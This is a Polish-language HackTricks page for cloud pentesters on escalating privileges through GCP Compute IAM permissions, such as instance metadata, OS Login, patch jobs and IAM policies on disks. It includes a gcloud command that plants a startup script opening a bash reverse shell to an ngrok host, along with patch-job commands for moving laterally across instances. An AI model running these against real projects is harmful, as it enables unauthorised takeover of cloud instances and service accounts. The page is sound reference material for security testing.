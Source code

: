 # GCP - Eskalacja uprawnień w Compute

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (sieć) w GCP, sprawdź:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Zauważ, że aby przeprowadzić wszystkie ataki eskalacji uprawnień, które wymagają modyfikacji metadanych instancji (takie jak dodawanie nowych użytkowników i kluczy SSH), **konieczne jest posiadanie uprawnień `actAs` do SA przypisanego do instancji**, nawet jeśli SA jest już przypisane!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Z tym uprawnieniem możesz **modyfikować** informacje **metadanych** instancji i zmieniać **autoryzowane klucze użytkownika**, lub **tworzyć** **nowego użytkownika z uprawnieniami sudo**. Dzięki temu będziesz mógł wykonać SSH do dowolnej instancji VM i ukraść konto usługi GCP, z którym działa instancja.\
Ograniczenia:

* Zauważ, że konta usług GCP działające w instancjach VM domyślnie mają **bardzo ograniczony zakres**
* Będziesz musiał **możliwość skontaktowania się z serwerem SSH**, aby się zalogować

Aby uzyskać więcej informacji na temat wykorzystania tego uprawnienia, sprawdź:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Możesz także przeprowadzić ten atak dodając nowy skrypt uruchamiania i restartując instancję:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

To uprawnienie daje **takie same uprawnienia jak poprzednie uprawnienie**, ale dotyczy konkretnych instancji zamiast całego projektu. Dotyczą go **te same ataki i ograniczenia co dla poprzedniej sekcji**.

### `compute.instances.setIamPolicy`

Ten rodzaj uprawnienia pozwoli ci **przyznać sobie rolę z poprzednimi uprawnieniami** i eskalować uprawnienia nadużywając ich.

### **`compute.instances.osLogin`**

Jeśli **OSLogin jest włączony na instancji**, to dzięki temu uprawnieniu możesz po prostu uruchomić **`gcloud compute ssh [INSTANCJA]`** i połączyć się z instancją. **Nie będziesz miał uprawnień roota** wewnątrz instancji.

{% hint style="success" %}
Aby pomyślnie zalogować się tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` nad SA przypisanym do VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Jeśli **OSLogin jest włączony na instancji**, to dzięki temu uprawnieniu możesz po prostu uruchomić **`gcloud compute ssh [INSTANCJA]`** i połączyć się z instancją. Będziesz miał **uprawnienia roota** wewnątrz instancji.

{% hint style="success" %}
Aby pomyślnie zalogować się tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` nad SA przypisanym do VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Możliwe jest **utworzenie wirtualnej maszyny z przypisanym Service Accountem i kradzieżą tokena** konta usługi, uzyskując dostęp do metadanych w celu eskalacji uprawnień.

Skrypt wykorzystujący tę metodę można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Jeśli masz uprawnienia **`osconfig.patchDeployments.create`** lub **`osconfig.patchJobs.exec`**, możesz utworzyć [**zadanie lub wdrożenie łatki**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Pozwoli ci to na lateralne poruszanie się w środowisku i uzyskanie wykonania kodu na wszystkich instancjach obliczeniowych w ramach projektu.

Jeśli chcesz ręcznie wykorzystać to, będziesz musiał utworzyć [zadanie łatki](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) lub [wdrożenie](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) dla zadania łatki uruchom:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Aby wdrożyć wdrożenie łatki:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Istnieją narzędzia automatyzujące takie jak [patchy](https://github.com/rek7/patchy), które wykrywają luźne uprawnienia i automatycznie poruszają się lateralnie.

**Możesz to także wykorzystać do trwałości.**

### `compute.machineImages.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do obrazu maszyny.

### `compute.snapshots.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do migawki dysku.

### `compute.disks.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do dysku.

### Bypassowanie zakresów dostępu

Klikając w ten link znajdziesz kilka [**pomysłów na próbę obejścia zakresów dostępu**](../).

### Lokalna eskalacja uprawnień w instancji obliczeniowej GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referencje

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
